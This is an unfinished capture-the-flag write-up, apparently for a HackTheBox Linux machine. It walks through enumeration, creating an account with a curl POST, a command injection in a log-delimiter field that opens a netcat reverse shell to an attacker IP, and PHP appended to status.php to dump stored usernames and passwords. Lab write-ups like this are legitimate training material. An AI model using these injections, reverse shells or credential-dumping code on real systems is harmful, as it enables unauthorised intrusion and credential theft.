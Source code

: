 ### Box Info
OS: Linux\
IP: 10.10.11.104

## Part I 

### Skills learned:
Curl/Python
CMD injection

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 22 OpenSSH
+ 80 Apache httpd 2.4.29 


### Dirb ${IP}/ -X .php
+ /accounts.php
    + Ability to create UN && PW            
+ /login.php
+ /status.php

### Step 1: User Account
+ Create account with curl request
  + curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php 
+ Login with new account:
  + Upload access, "MySQL server is online and connected", 3(2) registered admins, *sitebackup.zip*, User: m4lwhere
  + Management Menu -> Request Log Data: file delimeter

### Step 2: CMD Injection
+ inspect file delimeter
  + change comma to inlcude a nc shell
    + comma && nc -e /bin/sh ${AttackerIP} ${port#}
  + setup a listner shell : nc -lnp ${port#}

### Step 3: Shell
+ python -V
+ check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
+ m4lwhere seems to house all permissions
  + Must access users from db to get more info on m4lwhere
    + append to status.php
    + printf("<?php\n$db = connectDB();\n$query = "SELECT username, password FROM accounts";\n$users = $db->query($query);\nif ($users->num_rows > 0) {\nwhile($row = mysqli_fetch_assoc($users)) {\nvar_dump($row);\n}\n}\n$db->close();") >> status.php

TODO: 10.10.11.104 Hung up - Stuck in limbo. Contact HTB
